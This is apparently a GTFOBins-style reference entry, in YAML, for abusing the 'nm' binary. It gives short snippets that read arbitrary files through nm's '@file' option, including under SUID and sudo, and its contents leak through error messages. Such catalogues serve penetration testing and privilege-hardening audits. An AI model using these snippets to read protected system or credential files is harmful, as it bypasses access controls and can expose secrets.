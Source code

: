 ```yaml
---
description: The file content is treated as command line options and disclosed through error messages, so this is not suitable for reading arbitrary binary data.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        nm @$LFILE
  suid:
    - code: |
        LFILE=file_to_read
        nm @$LFILE
  sudo:
    - code: |
        LFILE=file_to_read
        sudo nm @$LFILE
---
```

